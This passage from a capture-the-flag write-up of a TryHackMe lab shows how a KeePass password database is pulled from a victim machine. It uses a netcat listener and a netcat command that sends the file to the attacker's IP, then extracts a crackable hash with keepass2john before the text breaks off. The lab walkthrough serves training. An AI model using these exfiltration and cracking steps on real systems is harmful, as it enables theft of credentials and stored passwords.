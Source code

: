 ```bash
nc -nvlp 6666 > dataset.kdbx
```

And send file from victim as follows:

```bash
nc 10.10.123.25 6666 < dataset.kdbx
```

![alt text](../assets/img/posts/2025-02-27-thm-writeup-opacity/image-9.png)

Having the file on our attacking machine, we can now attempt to brute force it using `john`, but first we need to convert it to correct format for cracking with `keepass2john`:

```bash
┌──(root㉿kali)-[~/Desktop]
└─# file dataset.kdbx 
dataset.kdbx: Keepass password database 2.x KDBX
                                                                   
┌──(root㉿kali)-[~/Desktop]
└─# /usr/sbin/keepass2john dataset.kdbx > hash
                                                                   
┌──(root㉿kali)-[~/Desktop]
└─# cat hash 
dataset:$keepass$*2*100000*0*211[REDACTED]36b4
```

Now we can proceed with `john` for trying to crack it. We'll use `rockyou` wordlist:
